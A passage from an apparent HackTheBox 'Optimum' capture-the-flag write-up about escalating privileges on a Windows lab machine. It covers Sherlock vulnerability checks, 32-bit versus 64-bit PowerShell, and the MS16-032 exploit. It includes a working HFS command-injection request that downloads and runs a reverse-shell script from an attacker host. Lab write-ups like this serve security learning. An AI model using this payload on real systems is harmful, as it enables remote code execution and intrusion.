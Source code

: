 - here we cloud have also used metasploit if we were in a meterpreter session.

```
meterpreter > powershell_import /root/HackTheBox/Optimum/Sherlock/Sherlock.ps1
meterpreter > powershell_execute Find-AllVulns
```

### The Importance of Architecture

I spent a while trying to get these exploits to work, and where they should work, they just didn’t. Then I remembered the importance of knowing the process architecture for the running PowerShell process.

Just calling `powershell` to activate the shell returns a process that is running as a 32-bit process:

```
PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess
False
```

That is because the<mark style="background: #9fef00;"> HFS process is likely running as a 32-bit process</mark>. This table (stolen from [ss64.com](https://ss64.com/nt/syntax-64bit.html)) shows how the different paths work based on the current session architecture:

![](Assets/2.png)

So from within a 32-bit session, calling PowerShell from the `C:\windows\system32` path will give the 32-bit version. <mark style="background: #9fef00;">Being in a 32-bit session trying to run kernel exploits against a 64-bit OS will fail.</mark>

To get a 64-bit shell, I’ll use the full path to PowerShell in the `sysNative` directory:

```
GET /?search=%00{.exec|C%3a\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.10/rev.ps1').} HTTP/1.1
Host: 10.10.10.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: HFS_SID=0.916518518235534
Upgrade-Insecure-Requests: 1
```

The resulting shell is 64-bit:

```
PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess
True
```

### MS16-032

The exploit-db link above will not work for this kind of scenario, as it will pop a new window on the box, rather than giving me the ability to run a command. Luckily, the folks in the Empire project ported a [version of this script](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) to add a command option.
